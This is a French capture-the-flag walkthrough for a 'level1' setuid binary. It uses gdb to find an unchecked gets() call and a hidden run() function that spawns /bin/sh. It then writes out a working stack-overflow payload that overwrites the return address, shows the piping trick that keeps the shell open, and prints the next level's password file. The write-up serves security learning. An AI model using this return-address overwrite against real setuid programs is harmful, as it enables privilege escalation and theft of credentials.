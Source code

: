 WALKTHROUGH LEVEL1 

---> [ls -la](../level1/ressources/full_walk.md#ls) :
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

=> nous disposons d'un fichier level1, appartenant à level2. Pour les 
permissions user/group/other :
- permission s sur la partie user : bit SUID (setuid) activé donc il ne
	s'exécute qu'avec les privilèges du owner (ici level2) et non avec les
	privilèges du user (ici level1)
- permission s sur la partie group : bit GUID (getuid) activé sur 
	l'execution. Quand ce fichier est exécuté, le processus s'exécute avec
	les permissions du groupe owner (level2) en plus de celles de l'owner
	du fichier.
- permission + : des ACL (listes de contrôle d'accès) sont appliquées.

---> [getfacl](../level1/ressources/full_walk.md#getfacl) level1 (pour voir les ACL) : 

---> [file](../level1/ressources/full_walk.md#file) level1 (quel est le type de
ce fichier)
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID
[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped


---> ./level1
Ne fait rien. Le programme attend une entrée puis s'arrête apres enter

---> GDB : gdb level1 / [disas main](../level1/ressources/full_walk.md#disas-main) 

Dump of assembler code for function main:
   ...
   0x08048486 <+6>:		sub    $0x50,%esp /Alloc 1 buffer de 80o sur stack
   0x08048490 <+16>:	call   0x8048340 <gets@plt> /appel de la fonction gets
End of assembler dump.

=> on repère les call : on a l'appel a une fonction gets@plt
PLT = Procedure Linkage Table. Cela sert a appeler des fonctions externes
dont l'adresse est inconnue au moment du linking et qui ne sera connue qu'au
moment de la liaison dynamique lors de l'exécution.

Donc le programme appelle la fonction gets d'une bibliothèque partagée. La
fonction gets est une fonction C connue pour sa vulnérabilité aux débordements
de tampon !! En effet, elle ne vérifie pas la taille de l'entrée par rapport à
la taille du tampon de destination. Elle continuera à lire les caractères et à 
les stocker dans le tampon jusqu'à ce qu'elle rencontre une nouvelle ligne ou 
la fin de fichier, sans se soucier des limites du tampon.

Ce tampon est de 80 octets (0x50)

On va essayer de faire un Buffer Overflow, surtout que sur cette VM, les
protections Canary sont désactivées...

---> GDB : gdb level1 / [info function](../level1/ressources/full_walk.md#info-function)(liste toutes les fonctions du programme)
...
0x08048444  run
0x08048480  main
...

=> la plupart des fonctions répertoriées (gets, fwrite, system) font partie de
bibliothèques partagées comme l'atteste le @plt qui suit. Il reste deux fonctions
propres au programme level1 : main et run. Lorsqu'on a desassemblé la fonction 
main, on n'a pas vu d'appel à run... Alors ?

---> GDB : set disassembly-flavor intel
Ce debugger peut utiliser 2 syntaxes :
- AT&T (La source est spécifiée avant la destination)
- Intel (la destination est spécifiée avant la source) et donne des précisions

---> GDB : gdb level1 / [disas run](../level1/ressources/full_walk.md#disas-run)

-> 0x08048444 <+0>:		push   ebp /-> debut de la fonction run
   ...
-> 0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584 /-> arg pour la fct system
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   ...

=> A retenir de ces info : 
- la fonction run commence a l'offset 0x08048444
- run envoie a la fonction system() un argument enregistré sur l'offset 0x8048584
system() sert a executer une commande shell. L'adresse placée avant est la
commande à exécuter ! 

On vérifie avec : gdb x/s 0x8048584
0x8048584:	 "/bin/sh"

Si on vérifie les autres offset présents dans la fonction run : 
gdb x/s 0x80497c0 -> 0x80497c0 <stdout@@GLIBC_2.0>:	 ""
gdb x/s 0x8048570 -> 0x8048570:	 "Good... Wait what?\n"

Mmmmmh... Attend, quoi ?

DONC la commande run, repertoriée dans le programme level1, lance un shell...
Mais elle écrit d'abord un texte : Good... Wait what?

|------------------------------------------------------------------------------------|
| L'objectif est donc de forcer l'appel a la fonction run, grâce à un exploit qui va |
| - d'un part créer un buffer overflow qui aboutira au lancement de run              |
| - d'autre part, une fois que run nous ouvre un terminal sh, le laisser ouvert pour |
|   qu'on puisse y entrer ce que l'on veut                                           |
|------------------------------------------------------------------------------------|

---> On va faire un buffer overflow : 
on veut envoyer 80 caractères en guise d'input pour notre programme. 
donc on va créer un fichier /tmp/buffertrick et l'injecter via gdb : 

1) creation du fichier :
python -c 'print "a"*80' > /tmp/buffertrick
cat /tmp/buffertrick
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

2) injection :
gdb level1
run < /tmp/buffertrick
Starting program: /home/user/level1/level1 < /tmp/buffertrick

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()

Ok Donc avec 80 caractères, on a bien un buffer overflow -> segfault !

3) ajout du pointeur dans notre script :
on sait que la commande run commence à l'adresse 0x08048444
Au lieu de mettre 80 caractères de padding, on en met 76 et les 4 derniers
seront consacrés à l'ajout de cette adresse sous le format little-endian
(c'est à dire qu'on la rentre à l'envers)

python -c 'print "a"*76+"\x44\x84\x04\x08"' > /tmp/buffertrick

4) injection dans run :

cat /tmp/buffertrick | ./level1
Cela segfault immédiatement. Le trick : on veut que notre cat reste ouvert
et puisse recevoir un input depuis l'entrée standard, sinon le programme
s'exécute trop vite et on n'a pas le temps de faire notre commande. Cela est
possible en ajoutant - avant le pipe : cela laisse ouvert notre cat, qui reste
en attente d'une entrée via standard + enter.

cat /tmp/buffertrick - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
